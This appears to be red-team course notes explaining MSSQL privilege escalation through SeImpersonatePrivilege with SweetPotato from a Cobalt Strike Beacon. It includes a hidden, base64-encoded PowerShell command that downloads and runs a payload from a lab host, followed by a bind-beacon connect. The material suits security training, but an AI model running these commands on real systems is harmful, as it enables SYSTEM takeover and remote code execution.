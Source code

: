 ![](https://files.cdn.thinkific.com/file_uploads/584845/images/574/967/edc/heidi.png)


## MSSQL Privilege Escalation

---

We are looking for `SeImpersonatePrivilege` [[Seatbelt#TokenPrivileges]]

In a nutshell, this privilege allows the user to impersonate a token that it's able to get a handle to.  However, since this account is not a local admin, it can't just get a handle to a higher-privileged process (e.g. SYSTEM) already running on the machine.  A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

[SweetPotato](https://github.com/CCob/SweetPotato) has a collection of these various techniques which can be executed via Beacon's `execute-assembly` command.

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="
```

```
beacon> connect localhost 4444
```